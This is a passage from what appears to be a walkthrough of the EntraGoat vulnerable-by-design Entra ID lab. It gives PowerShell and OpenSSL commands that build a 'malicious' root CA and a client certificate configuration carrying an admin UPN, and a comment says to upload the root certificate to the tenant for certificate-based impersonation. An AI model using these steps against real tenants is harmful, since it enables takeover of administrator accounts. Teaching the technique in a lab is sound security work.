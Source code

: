 ```powershell

subjectAltName = @alt\_names

[alt\_names]

otherName=1.3.6.1.4.1.311.20.2.3;UTF8:$adminUPN

"@

# output configuration to files

$caConfig | Out-File "$caWorkspace\ca.conf" -Encoding ASCII

$clientConfig | Out-File "$caWorkspace\client.conf" -Encoding ASCII

Set-Location $caWorkspace

# Generate root CA private key

& $opensslBinary genrsa -out ca\entragoat-root.key 4096

# Create root certificate for entra trust

& $opensslBinary req -new -x509 -days 3650 -key ca\entragoat-root.key -out ca\entragoat-root.cer -subj "/CN=EntraGoat Evil Root CA/O=EntraGoat Security/C=US"

Write-Output "Root CA certificate path: $caWorkspace\ca\entragoat-root.cer" # upload this to the tenant

```

After the malicious CA infrastructure is prepared, the contents of $caWorkspace\ca\ should resemble the files that *Figure 19* shows.

![](image%2018.png)
